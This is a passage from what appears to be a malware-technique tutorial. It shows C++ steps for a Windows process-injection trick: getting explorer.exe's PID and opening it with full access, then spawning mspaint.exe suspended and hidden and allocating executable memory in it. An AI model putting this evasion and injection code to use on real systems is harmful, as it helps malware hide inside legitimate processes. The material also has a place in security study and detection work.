 ![injection](./images/67/2022-09-06_23-25.png){width="80%"}    

Then, the execution flow of this trick is detailed in the following steps:

I got `explorer.exe` PID:    

```cpp
int pid = findMyProc(argv[1]);
if (pid) {
  printf("PID = %d\n", pid);
}

HANDLE ph = OpenProcess(PROCESS_ALL_ACCESS, false, (DWORD)pid);
```

Create process `mspaint.exe`:     

```cpp
CreateProcessA("C:\\Windows\\System32\\mspaint.exe", NULL, NULL, NULL, TRUE, 
CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, 
NULL, NULL, reinterpret_cast<LPSTARTUPINFOA>(&si), &pi);
LPVOID ba = (LPVOID)VirtualAllocEx(pi.hProcess, NULL, 0x1000, 
MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```
